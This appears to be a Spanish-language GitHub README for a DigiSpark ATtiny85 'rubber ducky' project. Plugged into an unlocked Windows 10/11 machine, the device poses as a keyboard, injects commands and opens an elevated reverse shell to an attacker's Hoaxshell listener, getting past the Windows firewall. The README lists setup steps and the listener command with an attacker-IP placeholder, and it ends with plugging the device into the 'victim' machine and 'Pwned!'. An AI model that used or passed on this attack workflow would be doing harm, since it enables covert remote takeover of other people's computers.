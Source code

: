 ## 📄 Descripción
Script para **DigiSpark ATtiny85** que genera una shell inversa con permisos elevados desde una máquina víctima hacia una máquina atacante, bypassando el firewall de Windows.

El ataque se ejecuta al conectar el dispositivo al puerto USB de la máquina víctima con Windows y sesión activa. El DigiSpark emula un teclado (HID) e inyecta comandos de forma automática, sin intervención del usuario, estableciendo una conexión hacia el servidor del atacante.

## ⚠️ Compatibilidad 

Este proyecto **solo funciona correctamente bajo las siguientes condiciones**:
- 🪟 **Sistema operativo victima**: Windows 10/11
- ⌨️ **Distribucion de teclado victima**: Español Latam (Puede configurarse para otras distribuciones en el propio script .ino)
- 🖥️ **Sesión activa**: Escritorio desbloqueado y sesión iniciada

 
## 🛠️ Requerimientos
1. Tener instalado Arduino IDE [Ver Arduino IDE](https://www.arduino.cc/en/software/)
2. Descargar e instalar DigiStump Board 1.6.7 a traves del Boards Manager de Arduino (Configuración)
```
   https://raw.githubusercontent.com/digistump/arduino-boards-index/refs/heads/master/package_digistump_index.json
```
3. Copiar la carpeta DigisparkKeyboard del repositorio y pegarla en:
```
C:\Users\tu_usuario\AppData\Local\Arduino15\packages\digistump\hardware\avr\1.6.7\libraries\
```
3. Descargar e instalar la herramienta Hoaxshell de su repositorio oficial:
```
git clone https://github.com/t3l3machus/hoaxshell
```
*Seguir los pasos de instalación y configuración propias del repositorio oficial de hoaxshell* 

## 🚀 Uso

1. Ejecutar Hoaxshell.py, copiar el token generado en $i y dejar ejecutandose
```python
python3 ./hoaxshell.py -s IP_ATACANTE -r -H 'Authorization'
```
![image](https://github.com/user-attachments/assets/8da49bb0-b57a-4613-9a5a-1bc4f6299157)


2. Abrir Arduino con el script, modificar las variables y seleccionar Digispark 16.5 Board:

- IP_AND_PORT_ATTACKER: Pegar tu IP y puerto de maquina atacante
- TOKEN: Pegar el token generado por hoaxshell
- TOKEN_PART1: Pegar primera parte del token
- TOKEN_PART2: Pegar segunda parte del token
- TOKEN_PART3: Pegar tercera parte del token

![image](https://github.com/user-attachments/assets/9418035f-eaa7-4b05-ae3b-a7bd19dd68d6)



3. Compilar y cargar a nuestro ATTINY-85

4. Conectar el dispositivo a la máquina victima y esperamos la respuesta en nuestra máquina de atacante.

5. Pwned!
   
![image](https://github.com/user-attachments/assets/5c8ce65b-5abe-4dae-a521-7f1f90dc95a5)



